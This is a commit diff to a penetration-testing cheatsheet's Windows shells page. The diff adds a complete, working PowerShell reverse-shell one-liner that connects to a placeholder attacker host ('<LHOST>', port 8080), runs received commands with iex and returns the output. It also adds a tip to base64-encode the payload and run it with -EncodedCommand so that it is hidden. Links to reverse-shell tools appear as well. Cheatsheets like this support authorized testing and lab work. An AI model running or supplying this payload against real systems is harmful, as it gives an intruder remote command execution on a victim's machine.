

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Windows/Shells.md, in a window 1280 px wide and 900 px high, scrolled down 1498 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2054 px from its top, so only the background shows below that.

Commit message:
Update Shells.md

````diff
--- a/docs/Windows/Shells.md
+++ b/docs/Windows/Shells.md
@@ -67,8 +67,20 @@ These are just some of the ways
 
 
 ## Powershell
-   * Get fully interactive shell with [ConPtyShell](https://github.com/antonioCoco/ConPtyShell)
-   * Please see script with examples above (mshta - var a,b and c)
-   * To be added here and more
-   * Working shells I have tried:
-      * [Mini-Reverse](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5) by @staaldraad
+* Please see script with examples above (mshta - var a,b and c)
+* To be added here and more
+* Working shells I have tried:
+    * [Mini-Reverse](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5) by @staaldraad
+
+### One-liners
+* Famous powershell one-liner
+```powershell
+powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<LHOST>',8080);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
+```
+* You can [base64 encode](../Useful_Commands/Linux.html#base64-encode) the block above and execute with this:
+```powershell
+powershell -EncodedCommand <Base64_payload>
+```
+
+### Fully interactive powershell
+* Get fully interactive shell with [ConPtyShell](https://github.com/antonioCoco/ConPtyShell)
````
